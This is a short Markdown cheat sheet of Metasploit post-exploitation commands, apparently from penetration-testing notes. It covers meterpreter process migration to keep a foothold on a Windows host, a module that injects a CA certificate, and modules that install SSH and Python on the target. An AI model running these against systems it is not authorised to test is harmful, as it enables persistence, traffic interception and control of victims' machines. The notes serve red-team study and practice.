 # Metasploit

## 01 - Migrate Process

- Migrate to a 64-bit process ID architecture to main presence

```
meterpreter > migrate <PID>

meterpreter > migrate -N explorer.exe

meterpreter > background
```

`msf > use post/windows/manage/migrate`

`msf > use post/windows/manage/priv_migrate`

`msf > use post/windows/manage/archmigrate`

## 02 - Inject Certificate

`msf > use post/windows/manage/inject_ca`

## 03 - Install Softwares

```
msf > use post/windows/manage/install_ssh

msf > use post/windows/manage/install_python
```